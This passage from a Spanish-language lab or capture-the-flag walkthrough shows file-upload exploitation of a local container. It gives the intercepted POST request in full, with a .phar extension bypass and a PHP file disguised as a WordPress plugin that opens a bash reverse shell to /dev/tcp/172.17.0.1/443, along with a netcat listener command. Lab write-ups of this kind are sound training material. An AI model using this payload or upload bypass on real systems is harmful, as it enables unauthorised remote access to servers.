 Tenemos un directorio listable **/uploads** y un **/file_upload.php**.

# EXPLOTACION

Vamos a subir un php que nos otorgue una reverse shell. Para ello al subir el archivo interceptamos la petición y cambiamos la extensión a **.phar** y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**) :

   ```bash

POST /subir_archivo.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------413812673414064069493916390486
Content-Length: 604
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/file_upload.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------413812673414064069493916390486
Content-Disposition: form-data; name="archivo"; filename="wp.phar"
Content-Type: application/x-php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

-----------------------------413812673414064069493916390486
Content-Disposition: form-data; name="submit"

Subir archivo
-----------------------------413812673414064069493916390486--

```
